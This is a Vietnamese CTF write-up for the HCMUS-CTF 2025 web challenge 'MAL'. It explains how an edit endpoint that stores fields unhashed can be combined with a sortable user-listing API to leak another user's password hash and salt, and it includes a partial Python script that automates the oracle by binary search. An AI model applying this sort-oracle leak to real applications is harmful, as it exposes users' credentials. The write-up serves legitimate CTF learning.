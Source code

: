 ```yaml
---
title: HCMUS-CTF 2025 Qualification
date: 2025-07-21 01:24 +0700
tags: [ctf, web, crypto, forensics, reversing, pwnable]
categories: [CTF Writeups]
author: Dat2Phit
math: true
img_path: /assets/img/HCMUS-CTF-2025
image: hcmusctf.png
---
```


# Intended Solution for MAL, MALD and BALD

## MAL

![alt text](chall1.png)

1. Ở chỗ update user (POST `/user/:username/edit`) code bị lỗi "QA" vì khi update mật khẩu sẽ không hash lại mà update trực tiếp vào db, nếu đúng thì mật khẩu sau khi đăng kí tài khoản sẽ được lưu vào 2 field là `hash` và `salt`.
2. API `GET /users` có cho mình liệt kê các users trên hệ thống, và mình có thể truyền query `sort` để sort ascending, descending dựa vào field đó của user.

=> Có thể sử dụng để leak 2 field `hash` và `salt` của tất cả user.

Để dễ hình dung thì giờ trên hệ thống có user `Dat2Phit` cần muốn leak mật khẩu, mình sẽ đăng kí thêm 1 user (gọi là `A`)

Sau đó để leak field `hash` của `Dat2Phit` thì mình sử dụng api update user (POST `/user/:username/edit`) để update field `hash` của `A` thành chữ `a`, sau đó sử dụng api list user (GET `/users`) với query là `?sort=hash` thì sẽ thấy user `A` nằm trước hoặc nằm sau user `Dat2Phit`.

Ví dụ trường hợp này user `A` nằm trước đi. Sau đó mình update field `hash` của user `A` thành `c`, lúc này gọi (GET `/users?sort=hash`) thì thấy user `A` nằm sau user `Dat2Phit` 
=> kí tự đầu của field `hash` của `Dat2Phit` là `b`.

Xong mình cứ làm tương tự với các kí tự sau, và làm như vậy cho field `salt` luôn. Ở đây có thể sử dụng thuật toán binary search để đẩy nhanh quá trình brute.

```python
def changeField(field_name, guess_hash):
  sess.post(url + f'/user/{username}/edit', data={field_name: guess_hash, 'secret': user_secret})
  res = sess.get(url + f'/users?sort={field_name}')
  soup = BeautifulSoup(res.text, 'html.parser')
  users = soup.find_all('a', {'class': 'anime_title'})
  for user in users:
    if admin_username in user:
      return 1
    if username.lower() in repr(user).lower():
      return -1
    
def leak_field(field_name, length, alphabet=string.hexdigits.lower()):
  field_value = ""
  while len(field_value) != length:
    L = 0
    R = len(alphabet)

    while L < R:
      M = (L + R) // 2
      if L == M:
        break
      guess = alphabet[M]
      field_value_guess = field_value + guess
```